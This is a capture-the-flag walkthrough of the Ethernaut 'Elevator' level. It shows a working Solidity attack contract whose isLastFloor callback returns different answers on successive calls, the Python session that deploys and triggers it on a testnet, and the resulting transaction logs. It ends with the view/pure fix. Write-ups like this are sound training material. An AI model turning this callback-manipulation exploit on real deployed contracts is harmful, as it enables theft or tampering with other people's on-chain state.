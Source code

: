 # 11 - Elevator

## Challenge

This elevator won't let you reach the top of your building. Right?

Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## Summary

In this level, we have a `Building` interface with `isLastFloor` method. We also have the deployed `Elevator`, it has `top` initialized to true, and we have a `goTo` method. In this method, if the given `_floor` is last floor, then we do nothing; otherwise, update `floor` to `_floor` and `top` to `isLastFloor(_floor)`. Because we enter the if statement when `_floor` is not last floor, `top` will be set to false. It seems we cannot set `top` to true either way.

The vulnerability here is that `Building` is a contract, and we can deploy a contract that implements `Building` interface. In this contract, we can implement `isLastFloor` to return true when `floor` is 1, and false otherwise. Then we can call `goTo` with `_floor` set to 1, and `top` will be set to true. We can do this because `Building` is an interface, and `isLastFloor` is modifiable without `view` or `pure` keyword.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0xe1162db2DCE5e9b9163C817278fa50fab2026De7'
```

Deploy `Building` contract with `Elevator` interface:

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint) external;
}

contract Building {
    bool public isLast = false;

    function hack(address _addr) public {
        IElevator elevator = IElevator(_addr);
        elevator.goTo(1);
    }

    function isLastFloor(uint) external returns (bool) {
        if (isLast == false) {
            isLast = true;
            return false;
        }
        return isLast;
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['Building']
```

Let's explain this a bit:

```js
interface IElevator {
    function goTo(uint) external;
}
```

Defines an interface to be called in `Building`.

```js
function hack(address _addr) public {
    IElevator elevator = IElevator(_addr);
    elevator.goTo(1);
}
```

Upon calling `hack` with level contract address, we initialize `Elevator` instance, and call `goTo` with `_floor` set to 1. This will invoke `Elevator`'s `goTo` method:

```js
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

Which in turn initializes `Building` instance, and calls `isLastFloor(1)`. Let's see how `Building` implements `isLastFloor`:

```js
bool public isLast = false;

function isLastFloor(uint) external returns (bool) {
    if (isLast == false) {
        isLast = true;
        return false;
    }
    return isLast;
}
```

If it is not last floor (e.g. here 1 is not last floor), we set `isLast` to true and actually return false. In this way, `if (! building.isLastFloor(_floor))` will enter and we can also set `floor` to `_floor = true` at the same time!

At this stage, we should have `top` set to true.

```py
>>> attackContract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> attackContract.deploy(contract_addr)
2023-06-15 22:35:56.977 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-06-15 22:36:13.030 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x1525D6D0eDCAEE236C31720e7230a4932E00b78a
>>> attackContract.functions.hack(contract_addr).send_transaction()
2023-06-15 22:36:41.449 | INFO     | cheb3.contract:send_transaction:236 - (0x1525D6D0eDCAEE236C31720e7230a4932E00b78a).hack transaction hash: 0x3cc2d0309c42a96c2134713fb372841eca64ebeaf32d053950d3e9196715a388
AttributeDict({'blockHash': HexBytes('0x8e3667cb40184ffb54c11fd50e4155e832dd354b5348a5b03f078ba61c98b186'), 'blockNumber': 9186836, 'contractAddress': None, 'cumulativeGasUsed': 29172488, 'effectiveGasPrice': 119, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 94115, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x1525D6D0eDCAEE236C31720e7230a4932E00b78a', 'transactionHash': HexBytes('0x3cc2d0309c42a96c2134713fb372841eca64ebeaf32d053950d3e9196715a388'), 'transactionIndex': 160, 'type': 0})
```

Finally, submit the instance to pass the level.

## Afterword

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.